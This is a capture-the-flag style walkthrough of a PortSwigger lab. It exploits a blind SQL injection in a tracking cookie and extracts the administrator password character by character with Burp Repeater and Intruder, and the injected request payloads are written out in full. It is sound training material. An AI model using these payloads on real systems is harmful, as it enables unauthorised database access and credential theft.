 *This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie. The results of the SQL query are not returned, and no error messages are displayed. But the application includes a "Welcome back" message in the page if the query returns any rows.
The database contains a different table called users, with columns called username and password. You need to exploit the blind SQL injection vulnerability to find out the password of the administrator user.
To solve the lab, log in as the administrator user.*

Upon opening the lab, I clicked on *My account*. I noticed a *Welcome Back* message from the top right of the page, as seen below:
![[Screenshot 2024-05-02 at 9.53.21 AM.png]]
I checked my HTTP History in Burp under `GET /login`and searched for the Welcome Back Message, taking note of the Content Length in the response as well: 
```Burp 
Content-Length: 3219
...
<div>Welcome back!</div>
...
```
I sent the same response to Burp Repeater to try and check if the *Welcome Back* message is triggered by a condition. I modified the tracking cookie to add `'AND '1'='1` to see if it returns the conditional message (*Welcome Back*). This is how the modified response looked:
```Burp 
GET /login HTTP/2
Host: 0ab9002a03a2d0018164525b003e00f3.web-security-academy.net
Cookie: TrackingId=duB1G3kGbNknGU88'AND '1'=1; session=op3EfcIch4AIpkkMwsvDRss3ywzzMvQi
...
```
This was the response : 
```Burp 
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 3219
...
<div>Welcome back!</div>
```
I modified the response to replace the injected query with `'AND '1'='2`. This was the response: 
```Burp 
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 3158
```
![[Screenshot 2024-05-02 at 10.03.39 AM.png]]
As the *Welcome Back* message was triggered by a condition, we can note that this application is vulnerable to blind SQLi. 

Now it's time to find out if there is a username *administrator* and if so, their login credentials. 

Modified the same request to the following: 
```Burp 
GET /login HTTP/2
Host: 0ab9002a03a2d0018164525b003e00f3.web-security-academy.net
Cookie: TrackingId=duB1G3kGbNknGU88'AND (SELECT 'a' FROM users WHERE username='administrator' AND length(password)>1)='a; 
...
```
This returned the *Welcome Back* message : 
```Burp 
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 3219
...
<div>Welcome back!</div>
```

Now it's time to find out the length of the password. I sent the request to Burp Intruder and used the *Numbers* payload to include a range from 1 to 30: 

```Burp 
GET /login HTTP/2
Host: 0ab9002a03a2d0018164525b003e00f3.web-security-academy.net
Cookie: TrackingId=duB1G3kGbNknGU88'AND (SELECT 'a' FROM users WHERE username='administrator' AND length(password)>§1§)='a; 
...
```
![[Screenshot 2024-05-02 at 10.11.26 AM.png]]
I also cleared the *Grep Match* list under the Intruder settings and included *Welcome Back* as the value. This was the response: 
![[Screenshot 2024-05-02 at 10.13.49 AM.png]]
As seen from above, the last number that has *Welcome Back* is 20, indicating that the password is 20 characters long. 

Now it's time to find the value of each individual character in the password. 
I first changed the attack type to *Cluster Bomb* and modified the request in Intruder to the following: 
```Burp 
GET /login HTTP/2
Host: 0ab9002a03a2d0018164525b003e00f3.web-security-academy.net
Cookie: TrackingId=duB1G3kGbNknGU88'AND (SELECT SUBSTRING(password,§1§,1) FROM users WHERE username ='administrator')='§a§; 
...
```
![[Screenshot 2024-05-02 at 10.51.05 AM.png]]

![[Screenshot 2024-05-02 at 10.51.39 AM.png]]
I received the following, filtering the 'Welcome Back' column by those with 1 as a value : 
![[Screenshot 2024-05-02 at 12.56.10 PM.png]]
Checking the values of the character, I pieced together the password to this by sorting payload 1 in ascending order: 
`5qv1dehy1pb8p14uolja`

Logged in with the credentials: 
![[Screenshot 2024-05-02 at 1.02.34 PM.png]]
